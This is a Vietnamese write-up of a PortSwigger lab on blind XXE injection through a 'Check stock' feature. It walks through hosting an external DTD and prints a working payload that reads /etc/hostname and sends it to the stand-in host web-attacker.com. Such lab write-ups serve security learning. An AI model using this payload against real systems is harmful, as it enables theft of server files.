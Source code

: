 Description: This lab has a “Check stock” feature that parses XML input but does not display the result. To solve the lab, exfiltrate the contents of the /etc/hostname file.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator’s default public server (burpcollaborator.net).

Lại là 1 bài blind XXE với lổ hổng nằm ở Check stock. Để giải được challenge này thì ta cần phải truy cập /etc/hostname. Và ta sẽ sử dụng external dtd. Tức là 1 file dtd bên ngoài.

Do nó không cho phép ta sử dụng external entity nên mình sẽ thử có thể dùng Parameter entity như lab trước không bằng cách tạo 1 Parameter entity là xxe và cho nó tạo request đến Burp Collaborater:

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/aab98d35-d7f5-47e7-bf63-1bd5cd9d6c8b)

Tình hình vẫn ổn do đó việc sử dụng parameter entity là không sai.

Tiếp theo mình sẽ tạo 1 file .dtd trên server exploit sau đó load nó bằng Parameter Entity xxe.

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/a7961844-82da-4682-9fe0-2751270325e5)

Ở phần server exploit có mục ``Access log``, mình thử truy cập vào để xem file .dtd có được load thành công hay không.

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/182d9903-c6a2-49a7-ab60-11601450a724)

Bây giờ việc cần làm là trong file .dtd đó sẽ chứa gì để ta có thể đọc được file /etc/hostname.

Sau khi search trên google thì mình biết được là .dtd file sẽ gồm các bước sau:

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/c7e74e67-4610-4185-acbb-97b4f4b44865)

  - Định nghĩa 1 XML parameter entity gọi là file, bao gồm nội dung của file cần đọc.
  - Định nghĩa 1 XML parameter entity gọi là eval, chứa một khai báo động của một XML parameter entity khác được gọi là exfiltrate. Thực thể exfiltrate sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP đến máy chủ web của kẻ tấn công(Burp Collaborator) có chứa giá trị của thực thể file trong chuỗi truy vấn URL. Sử dụng thực thể eval, thực thể này khiến việc khai báo động của thực thể exfiltrate được thực hiện. Sử dụng thực thể exfiltrate, để giá trị của nó được đánh giá bằng cách yêu cầu URL được chỉ định.

Ví dụ:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Bây giờ ta chỉ cần tạo 1 file .dtd file tương tự lên server exploit sau đó load nó bằng thực thể xxe.

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/7788b0e3-0d9e-4055-b90a-7a31a977c4ec)

Vậy nội dung của file là 3e6a2fcd0641, submit là hoàn thành lab thôi.
